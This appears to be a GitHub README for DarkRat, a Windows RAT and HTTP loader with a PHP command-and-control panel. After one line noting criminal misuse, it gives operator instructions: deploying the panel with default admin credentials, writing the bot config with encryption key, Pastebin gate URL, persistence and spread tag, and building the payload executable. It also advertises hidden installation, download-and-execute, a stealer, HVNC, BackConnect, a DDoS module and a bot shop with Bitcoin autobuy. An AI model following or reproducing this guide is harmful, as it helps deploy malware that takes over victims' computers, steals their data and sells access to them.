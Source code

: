# DarkRat



DarkRAT is one of many remote access tools (RATs) used to control connected computers remotely. Unfortunately, in many cases, cyber criminals trick people into installing RATs onto their systems and then use them to steal personal details, infect systems with malware, and cause other damage.

> Darkrat is designed as a HTTP loader, it is coded in C++ with no dependency, the Current bot is design for the Windows API! this means, DarkRat has no Cross Platform Support.



## Getting Started 
Connect to your Server via `SSH` Install Apache2, PHP7.x MYSQL (MariaDB Server in Ubuntu 18) and PHPMYADMIN
Enable .htaccess from apache2 configurations. Create .htaccess file in your root directory and write inside:

```
<Directory /var/www/html>
  Options FollowSymLinks
  AllowOverride all
  Require all granted
</Directory>
```

Unpack the `DarkRat.zip`
Upload Files to the root of your www (By Default `/var/www/html/`)
on a new Installation delete the `index.html`
Give www Write/Read/Execute permission on all uploaded files (`chmod 777 ./*`)
open your domain oder serverip / Now you see the install page
Flowing the Setup and install the Panel, or install it Manual by import the sql
by default enter username: `admin` password: `admin`

Config Example:
```php 
<?php $pdo = new PDO('mysql:host=localhost;dbname=darkrat', 'username', 'password');
```

## Build a Bot
Create a License file named `darkrat.lic` and enter your License Key.
Create a file named `config.json` and enter your Gate Settings. Shortnames: `ek = Encryption Key (Lenght 32)` and `pu = Pastebin URL OR Direct Encrypted URL`
```json
{
  "pu": "keRwrh9WFcNrWnCLM96VuBRRMCYg/UPgRTb09A=="
}
```

 - mux    ⟶ A Random Mutex
 - sup    ⟶ Startup true/false
 - ri     ⟶ Request Interval in secounds
 - pre    ⟶ Running Persistence true/false
 - st     ⟶ Spread Tag
 - ua     ⟶ User Agent for Post Requests
 - pn     ⟶ Some Example for DarkRat Developers

Full Config Example

```json
{
  "ek": "randomkey",
  "pu": "http://XXX.com/raw/random",
  "mux": "3mCUq1z",
  "sup": "false",
  "ri": "5",
  "pre": "false",
  "st": "main",
  "ua": "SUq1rx",
  "pn": { "FOO":"BAR" }
}
```

Open the builder.exe and enter your username
Select create from Config File if you created one, if not select create from Terminal.
Finished. spider.exe is created, Backtest your payload on a VM.

## Panel

 - Template System based on Smarty
 - Dynamic URL Routing
 - Multi User Support
 - Plugin System
 - Statistics of Bots & online rates
 - Advanced Bot Informations
 - Task Tracking
 - Task Geo Targeting System
 - Task Software Targeting System (for .net software)

## Bot 2.1.3

 - Running Persistence
 - Startup Persistence
 - Installed hidden on the FileSystem
 - Download & Execute
 - Update
 - Uninstall
 - Custom DLL Loading
 - Direct Connect or RAW forwarder (Like pastebin/gist also supported own plain/raw sites)


## Included Plugins

 - Botshop with autobuy Bitcoin API
 - Alpha version of a DDOS
 - HVNC
 - Stealer
 - BackConnect


## Password: passwd
<img src="https://fr3d.hk/blog/bl-content/uploads/pages/55ec38fec50258b5f97b749d5a28bb8a/panel.png" />
